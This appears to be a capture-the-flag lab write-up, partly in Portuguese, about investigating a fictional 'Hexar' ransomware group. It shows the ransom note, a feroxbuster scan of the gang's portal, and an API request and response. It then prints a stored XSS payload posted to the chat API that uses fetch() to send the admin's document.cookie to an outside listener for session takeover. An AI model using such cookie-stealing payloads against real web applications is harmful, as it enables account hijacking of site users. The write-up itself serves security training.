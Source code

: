 #+title: Hexar
#+author: gabriel
#+description: easy lab

* intro
Last night, one of our client organizations was hit by a cyber attack, likely a ransomware incident. All files on the affected workstation are encrypted and inaccessible, rendering the system unusable. The attackers left a READ_ME_HEXAR.txt ransom note on the desktop containing a link for chat/payment and a unique device ID.

Your mission is to gather information about the ransomware group and take the necessary steps to recover the data on the system.

#+begin_src text
YOUR FILES HAVE BEEN ENCRYPTED BY HEXAR RANSOMWARE!

All important files on this machine are encrypted and unavailable.
Do not modify, rename, or delete files — you will lose them permanently.

To recover your files:
1) Visit our portal: hexar1c2adk0mr1r[.]hv
2) Enter your device ID: WIN-KH8L9J0K1L2M
3) Follow the payment instructions.

ATTENTION:
- Do NOT turn off your PC.
- Do NOT contact law enforcement.
- Use the chat on our portal for payment and decryption key.

Use chat on our portal for payment details and the decryption key.

HEXAR
#+end_src

* enum with feroxbuster
#+begin_src sh
feroxbuster --url http://hexar1c2adk0mr1r.hv
                                                                                
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.11.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://hexar1c2adk0mr1r.hv
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.11.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
403      GET        9l       28w      284c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
404      GET        9l       31w      281c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
301      GET        9l       28w      324c http://hexar1c2adk0mr1r.hv/api => http://hexar1c2adk0mr1r.hv/api/
301      GET        9l       28w      331c http://hexar1c2adk0mr1r.hv/javascript => http://hexar1c2adk0mr1r.hv/javascript/
200      GET      101l      254w     3841c http://hexar1c2adk0mr1r.hv/assets/js/main.js
200      GET     1006l     1881w    20942c http://hexar1c2adk0mr1r.hv/assets/css/style.css
200      GET       33l       62w     1037c http://hexar1c2adk0mr1r.hv/
301      GET        9l       28w      327c http://hexar1c2adk0mr1r.hv/assets => http://hexar1c2adk0mr1r.hv/assets/
301      GET        9l       28w      331c http://hexar1c2adk0mr1r.hv/assets/css => http://hexar1c2adk0mr1r.hv/assets/css/
301      GET        9l       28w      330c http://hexar1c2adk0mr1r.hv/assets/js => http://hexar1c2adk0mr1r.hv/assets/js/
301      GET        9l       28w      338c http://hexar1c2adk0mr1r.hv/javascript/jquery => http://hexar1c2adk0mr1r.hv/javascript/jquery/
200      GET    10870l    44283w   287600c http://hexar1c2adk0mr1r.hv/javascript/jquery/jquery
[####################] - 31s   210028/210028  0s      found:10      errors:1      
[####################] - 22s    30000/30000   1364/s  http://hexar1c2adk0mr1r.hv/ 
[####################] - 26s    30000/30000   1158/s  http://hexar1c2adk0mr1r.hv/api/ 
[####################] - 28s    30000/30000   1060/s  http://hexar1c2adk0mr1r.hv/javascript/ 
[####################] - 27s    30000/30000   1122/s  http://hexar1c2adk0mr1r.hv/assets/ 
[####################] - 26s    30000/30000   1173/s  http://hexar1c2adk0mr1r.hv/assets/js/ 
[####################] - 26s    30000/30000   1171/s  http://hexar1c2adk0mr1r.hv/javascript/jquery/
#+end_src

* XSS at chat
O chat se baseia em um API no backend, após mandar um get pra API ->
#+begin_src sh
GET /api/chat.php HTTP/1.1
Host: hexar1c2adk0mr1r.hv
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://hexar1c2adk0mr1r.hv/dashboard.php
Connection: keep-alive
Cookie: PHPSESSID=b35b3101592cb7adeeb306412da19e87
Priority: u=4

#+end_src

*response* ->
#+begin_src sh
HTTP/1.1 200 OK
Date: Thu, 02 Oct 2025 17:53:30 GMT
Server: Apache/2.4.62 (Debian)
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 4649
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: application/json

{"messages":[{"id":21,"0":21,"victim_id":6,"1":6,"sender_type":"hacker","2":"hacker","message":"Your engineering workstation has been encrypted with advanced ransomware. Pay $2800 to decrypt all your files.","3":"Your engineering workstation has been encrypted with advanced ransomware. Pay $2800 to decrypt all your files.","created_at":"2025-07-31 14:00:08","4":"2025-07-31 14:00:08"},
#+end_src

*Craft the post request with payload* ->
#+begin_src sh
POST /api/chat.php HTTP/1.1
Host: hexar1c2adk0mr1r.hv
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://hexar1c2adk0mr1r.hv/dashboard.php
Content-Type: application/json
Content-Length: 143
Origin: http://hexar1c2adk0mr1r.hv
Connection: keep-alive
Cookie: PHPSESSID=b35b3101592cb7adeeb306412da19e87
Priority: u=0

{
"sender_type":"hacker","2":"hacker",
"id":20,
"message":"<script>fetch(\"http://172.20.69.80:7777/?cookie=\"+document.cookie)</script>"
}
#+end_src

O payload será executado no lado do ADmin, e com o cookie obtido será possível logar na aplicação como admin do sistema.

